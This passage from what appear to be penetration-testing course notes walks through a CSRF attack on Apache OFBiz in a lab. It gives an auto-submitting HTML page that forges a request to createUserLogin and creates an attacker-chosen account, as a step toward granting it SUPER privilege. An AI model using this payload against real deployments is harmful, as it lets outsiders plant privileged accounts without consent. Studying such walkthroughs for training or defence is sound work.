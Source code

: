 <figure><img src="../../../.gitbook/assets/offsec_ofbiz_3.png" alt=""><figcaption><p>Figure 7: Inspecting the request that elevates user privileges.</p></figcaption></figure>

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

At a high level, we want to copy the application's HTML forms into pages hosted on our server. We will fill the forms with our own data and make them submit on page load, so the victim must only open the page. In this case, our goal is to create a new user and then assign them the `SUPER` privilege. We will start by creating the basic structure of a form element (`ofbiz.html`) under `/var/www/html` so we can server it using Apache.

{% code title="ofbiz.html" overflow="wrap" %}
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>
```
{% endcode %}

Next, we need to add the `input` elements. The `POST` request that our page generates needs to match the baseline request from the app. We need to add input elements, one for each key-value pair in the original request, inside the form element.

{% code title="ofbiz.html" overflow="wrap" %}
```html
<html>
  <body onload="document.forms['csrf'].submit()">
    <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
      <input type="hidden" name="enabled">
      <input type="hidden" name="partyId">
      <input type="hidden" name="userLoginId" value="csrftest">
      <input type="hidden" name="currentPassword" value="password">
      <input type="hidden" name="currentPasswordVerify" value="password">
      <input type="hidden" name="passwordHint">
      <input type="hidden" name="requirePasswordChange" value="N">
      <input type="hidden" name="externalAuthId">
      <input type="hidden" name="securityQuestion">
      <input type="hidden" name="securityAnswer">
    </form>
  </body>
</html>
```
{% endcode %}

